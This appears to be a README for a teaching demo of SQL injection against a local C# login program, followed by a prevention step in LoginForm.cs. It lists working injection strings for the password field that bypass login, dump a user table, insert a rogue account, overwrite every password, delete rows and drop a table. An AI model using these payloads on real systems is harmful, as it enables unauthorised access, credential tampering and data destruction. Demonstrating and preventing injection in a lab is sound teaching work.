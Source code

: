 #  This is Demo for SQL Injection Attack hello <br>

__Usebackup file `DemoSQLi.bak` to set up Database__ <br>
__Run file `SQLi.sln` to open project__ <br>
__Change DataSource in file `MyDB.cs` to Connect to database__ <br>
![image](https://github.com/user-attachments/assets/d3388462-80da-4909-8411-71a04ba8e00f) <br> <br>

__To Login input username and password following this table__ <br>
![image](https://github.com/user-attachments/assets/903733c5-5dfa-478a-92fc-c926a99f126a) <br>

__Run Program and login normally__ <br>
![image](https://github.com/user-attachments/assets/be7584b8-dfc0-4e15-a98b-a84f8798982c) <br>

__Exit and try to perform SQL injection attack__ <br>
![image](https://github.com/user-attachments/assets/9d816923-2e97-4954-a480-6f3a29591305) <br>

Enter something in `username` TextBox <br>
Enter these following strings one by one into the `password` TextBox:
```
' or 1=1 -- Login
' or 1=1 UNION SELECT * FROM Users -- Stealing
' or 1=1; INSERT INTO Login(username, password) VALUES ('inject1', '12345')  -- Insert 
' or 1=1; UPDATE Login SET password = 'ThisIsInjectedPassWord' -- Change Password
' or 1=1; DELETE FROM users1 -- Delete  
' or 1=1; DROP TABLE USERS1 -- DROP TABLE
```
<br>
And Observe database changes <br>


# To Prevent SQL Injection Attack <br>
Open file `LoginForm.cs` <br> 
__Comment line 30, 31 and uncomment line 33 to 38__ <br>
![image](https://github.com/user-attachments/assets/4fb4d29b-31e6-439e-bce0-3b0122a1d5ea) <br>

__Try to login by SQL injection. The result is `Invalid Login`__


